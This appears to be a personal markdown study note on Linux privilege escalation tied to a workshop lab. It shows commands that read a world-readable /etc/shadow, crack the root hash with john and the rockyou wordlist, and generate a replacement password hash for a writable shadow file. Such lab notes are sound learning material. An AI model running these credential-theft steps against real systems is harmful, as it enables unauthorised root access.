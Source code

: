 # Linux Privelege Escalation


Links:
https://medium.com/malware-buddy/security-infographics-9c4d3bd891ef#18dd
https://github.com/sagishahar/lpeworkshop


## 1. Service Exploits
### mysql 
Using the exploit from exploit db to get the rootshell. Since mysql is run by root without password where we can create the tables and run the `command` using function.

## 2. Week file permission 
### Readable
#/etc/shadow 
Here I will be exploiting the shadow file which have read permission.
At first I have check the permission of `shadow` file.
```bash
root@gr4n173:~$ ls -al /etc/shadow
-rw-r--rw- 1 root shadow 845 May  2 03:41 /etc/shadow
```


There you can see the `rw` permission to others. So I have read the shadow file and collected the hash of root user.
```bash
root@gr4n173:~$ cat /etc/shadow          
root:Hashesh over here :0:99999:7:::                                     
daemon:*:17298:0:99999:7:::                                                     
bin:*:17298:0:99999:7::: 
sys:*:17298:0:99999:7:::
sync:*:17298:0:99999:7:::
games:*:17298:0:99999:7:::
man:*:17298:0:99999:7:::  
```


Now after collecting `hash` I have used `john` to crack the hash using `rockyou` password wordlist.
```bash
root@gr4n173:~$ john --wordlists=/usr/share/rockyou.txt hash
```


### Writable
# /etc/shadow
For the week file permission I have created the new hash of newpassword using `mkpasswd` tool in kali linux.

```zsh
root@gr4n173:~$ mkpasswd -m sha-512 passwordhere
$6$gdvluNMatnPMjy7r$1oYL8zHY7vcNAQM1QLtoVN8V6cwKIbmXuWoft3fjwS4hPy.ZOOENIs66T6M7IitJeH9U6x3MKi8lJJp7FDifI.
 ```
 